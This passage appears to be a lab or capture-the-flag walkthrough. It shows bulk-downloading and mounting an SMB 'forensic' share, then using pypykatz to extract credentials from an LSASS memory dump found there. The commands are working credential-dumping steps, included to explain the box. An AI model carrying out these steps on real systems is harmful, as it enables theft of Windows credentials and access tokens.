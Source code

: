 We see we have a bunch of zip files in the folder memory_analysis, we could go for the commands_output folder and get the files but there is nothing usefull over there except the file domain_users.txt we can see svc_backup as one of the user.

We could download everhting of the share using the following

```bash
smb: \> prompt off
smb: \> recurse on 
smb: \> mget *
```

Since the zip files are pretty big and i got error for downloading the files over smb.

Let’s mount the smb share to our /mnt/share on out local machine and then we can copy the zip files

## Mounting smb share to local file system

```bash
mkdir /mnt/share 
                                                                                                                             
mount -t cifs //10.10.10.192/forensic /mnt/share -o username=audit2020     
--#Password for audit2020@//10.10.10.192/forensic: 
                                                                                                                             
cd /mnt/share/memory_analysis 
                                                                                                                             
ls
conhost.zip  dfsrs.zip    ismserv.zip  mmc.zip            ServerManager.zip  smartscreen.zip  taskhostw.zip  wlms.zip
ctfmon.zip   dllhost.zip  lsass.zip    RuntimeBroker.zip  sihost.zip         svchost.zip      winlogon.zip   WmiPrvSE.zip
```

Now that we have successfully connected to the share lets copy the files

Now out of all file the lsass.zip file is the most intresting file as LSASS stands for the [Local Security Authority Subsystem Service](https://www.google.com/search?client=firefox-b-d&sca_esv=88cc58f84633fe9a&sxsrf=AE3TifPs8AqZN8llQIleNRtVMGSpiDUITA%3A1758453115439&q=Local+Security+Authority+Subsystem+Service&sa=X&ved=2ahUKEwjU37Kq3OmPAxW8zTgGHQshNwsQxccNegQIGBAB&mstk=AUtExfBkMuNjsZdLEi-usFqZMjHCjIWcofmA55krSq51nhZBN0St0dtA1qAX38v_pPqTL_ZHYPSSTEcGNolDlEoOZ6e4-kSmaeGsXH1g4GPHBHb3y-XJIN5LzkrXyHFcTUveAVnGC_BE4QDFKngeYdvhS8LAZocngsvdt2tBY4n4ypnTOMBlPDdONOYWzGlXbqf5aOq5DwO6YZSEqtatg_g9ylwd_aXdWQWOWF5uL_mLi3LJy9R_simaPPjoqAI6U4wC4lJhUcFEmFxaytbwq2-InHQX&csui=3) (Lsass.exe), a critical Windows process responsible for user
authentication, security policy enforcement, and the handling of user credentials and access tokens on a system.

We can get the file and dump the creds present

Unzipping the file we get the lsass.DMP file, now we can use pypykatz a python representation of mimikatz

```bash
pypykatz lsa minidump  lsass.DMP
```

This will dump all the creds that were present in the memory at the time of creating it
